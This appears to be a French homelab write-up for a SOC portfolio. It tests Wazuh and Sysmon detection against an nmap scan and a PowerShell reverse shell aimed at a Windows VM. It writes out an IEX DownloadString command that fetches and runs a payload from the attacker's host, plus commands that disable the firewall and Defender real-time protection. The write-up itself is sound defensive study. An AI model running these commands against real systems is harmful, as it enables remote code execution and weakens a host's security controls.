





# Write-up — Phase d'attaque distante & limites de la détection host-based

> Documentation d'une session d'attaque menée vers la victime Windows, et des
> **enseignements de détection** qui en découlent. Cette phase met en lumière une notion
> clé du métier SOC : ce qu'un agent host-based voit, et ce qu'il ne voit pas.

**Attaquant :** machine hôte Kali (`192.168.56.1`)
**Victime :** WIN-VICTIME (`192.168.56.105`)
**Manager SIEM :** SIEM-WAZUH (`192.168.56.104`)

---

## 1. Objectif

Passer d'attaques lancées en local sur la victime à des **attaques distantes**
(reconnaissance puis tentative d'accès), et observer le comportement de la chaîne de
détection Wazuh face à chaque technique.

---

## 2. Reconnaissance — Scan de ports (T1046)

### Action

Scan de la victime Windows pour cartographier les services exposés :

```bash
nmap -sV -sC 192.168.56.105
```

### Résultat

Après désactivation du pare-feu Windows (contexte de lab), trois ports caractéristiques
d'un hôte Windows :

```
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds  (SMB 3.1.1)
```

Le scan a également révélé le nom NetBIOS de la machine et la configuration de signature SMB.

### Observation de détection — point clé

**Le scan n'a généré AUCUNE alerte dans Wazuh.** Ce n'est pas un défaut de
configuration, mais une **limite architecturale attendue** :

- L'agent Wazuh + Sysmon est une détection **host-based** : il observe ce qui se passe
  *à l'intérieur* de la machine (processus, fichiers, connexions initiées par l'hôte).
- Un scan de ports est une sollicitation **réseau entrante** initiée par l'attaquant.
  Aucun processus n'est créé sur WIN-VICTIME, et Sysmon ne journalise pas ces connexions
  entrantes par défaut.

> **Leçon SOC :** la détection d'un scan relève d'une sonde **réseau** (NIDS, ex.
> Suricata), pas d'un agent host-based. Comprendre cette frontière HIDS / NIDS est
> fondamental.

### Remédiation possible

Pour détecter ce type d'activité, deux pistes :
1. Activer l'audit des connexions réseau / pare-feu côté Windows et remonter ces logs
   vers SIEM-WAZUH.
2. Ajouter une sonde réseau (Suricata) intégrée à Wazuh — évolution vers un lab
   **HIDS + NIDS**.

---

## 3. Tentative d'accès — Reverse shell PowerShell (T1059.001 / T1071)

### Action

Hébergement d'un reverse shell PowerShell sur la machine attaquante (serveur HTTP),
puis téléchargement et exécution depuis WIN-VICTIME :

```powershell
# Désactivation du pare-feu sur WIN-VICTIME
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

# Vérification de la connectivité vers l'attaquant
ping 192.168.56.1

# Téléchargement et exécution du payload en mémoire
IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.1:80/shell.ps1')
```



### Alerte Wazuh — T1105 (Ingress Tool Transfer)

Lorsque le fichier `shell.ps1` a été détecté par Defender, SIEM-WAZUH a remonté
une alerte de niveau 15 (règle 92213 — *Executable file dropped in folder commonly used
by malware*) :



### Résultat — blocage par AMSI / Windows Defender

L'exécution a été **interceptée et bloquée** par l'antivirus intégré :

```
Ce script dont le contenu est malveillant a été bloqué par votre logiciel antivirus.
ScriptContainedMaliciousContent
```

L'AMSI (Antimalware Scan Interface) a analysé le script à l'exécution, reconnu le motif
`System.Net.Sockets.TCPClient` comme malveillant, et stoppé le processus.



### Tentative de contournement — désactivation de Defender

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.1:80/shell.ps1')
```

Même après désactivation de la protection temps réel, AMSI analyse la chaîne en mémoire
et bloque toujours l'exécution :



### Observation de détection — défense en profondeur

Cette tentative illustre la **superposition des couches défensives** rencontrées :

| Couche | Mécanisme | Effet observé |
|--------|-----------|---------------|
| 1. Réseau | Pare-feu Windows | Bloquait le scan (ports « filtered ») jusqu'à désactivation |
| 2. Endpoint | AMSI / Windows Defender | A bloqué le reverse shell PowerShell |
| 3. Détection | SIEM-WAZUH (Wazuh + Sysmon) | Journalise et alerte sur ce qui s'exécute |

> **Leçon SOC :** un attaquant doit franchir plusieurs couches successives. Désactiver
> l'une révèle la suivante. Un bon dispositif défensif ne repose jamais sur une seule
> barrière.

---

## 4. Détection efficace — Ce que l'agent voit réellement bien

Les techniques **exécutées sur WIN-VICTIME** (création de processus, lignes de commande
suspectes) sont parfaitement captées par Sysmon et remontées à SIEM-WAZUH. Exemple
validé précédemment : exécution de PowerShell encodé (T1059.001), détectée nativement
(règle 92057) et par règle custom spécialisée (niveau 13 sur motifs offensifs `iex` /
`downloadstring`).

C'est la cible naturelle d'une détection host-based : **l'activité post-compromission
sur l'endpoint**.

### Dashboard Threat Hunting

Le dashboard Threat Hunting de SIEM-WAZUH synthétise les alertes de niveau 12+ et
les techniques MITRE ATT&CK déclenchées lors de la session :



---

## 5. Synthèse des enseignements

- **HIDS vs NIDS :** un agent host-based ne détecte pas un scan réseau ; il détecte ce
  qui s'exécute sur la machine. Frontière essentielle à connaître.
- **Défense en profondeur :** pare-feu, antivirus/AMSI et SIEM forment des couches
  complémentaires — chacune indépendante.
- **Pertinence des sources :** la qualité de détection dépend d'abord de la bonne source
  de log au bon endroit.
- **Évolution du lab :** l'ajout d'une sonde réseau (Suricata) et/ou le contournement
  maîtrisé d'AMSI (volet purple team) constituent les prochaines étapes logiques.

---

## 6. Compétences démontrées

Reconnaissance réseau (nmap) · compréhension des limites host-based vs network-based ·
lecture du comportement d'AMSI / Windows Defender · raisonnement défense en profondeur ·
analyse critique d'une chaîne de détection.
